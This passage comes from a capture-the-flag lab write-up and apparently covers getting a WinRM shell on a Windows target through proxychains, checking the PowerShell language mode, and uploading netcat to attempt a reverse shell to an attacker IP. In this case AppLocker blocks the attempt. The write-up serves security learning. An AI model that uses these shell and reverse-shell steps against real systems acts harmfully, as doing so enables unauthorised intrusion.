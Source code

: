 Now I can connect and get a shell as simple:

```

root@kali# proxychains ruby winrm_shell_with_upload.rb
ProxyChains-3.1 (http://proxychains.sf.net)
PS hackback\simple@HACKBACK scripts> whoami
hackback\simple 

```

## Privesc To hacker

### Shell Capabilities

#### PowerShell Language Mode

First I need to figure out what kind of shell I have. It seems I have full language mode, which is good:

```

PS hackback\simple@HACKBACK Documents> $executioncontext.sessionstate.languagemode
FullLanguage

```

#### AppLocker

It seems there is some limit on where I can execute programs. For example, if I try to upload `nc.exe` to simple’s documents folder, it won’t execute:

```

PS hackback\simple@HACKBACK Documents> UPLOAD nc64.exe nc.exe
Uploading nc64.exe to nc.exe26932 bytes of 60360 bytes copied
53864 bytes of 60360 bytes copied
60360 bytes of 60360 bytes copied

OK
PS hackback\simple@HACKBACK Documents> .\nc.exe 10.10.14.14 443
Program 'nc.exe' failed to run: This program is blocked by group policy. For more information, contact your system administratorAt line:1 char:1                                                                           
+ .\nc.exe 10.10.14.14 443
+ ~~~~~~~~~~~~~~~~~~~~~~~.
At line:1 char:1
+ .\nc.exe 10.10.14.14 443
+ ~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed

```
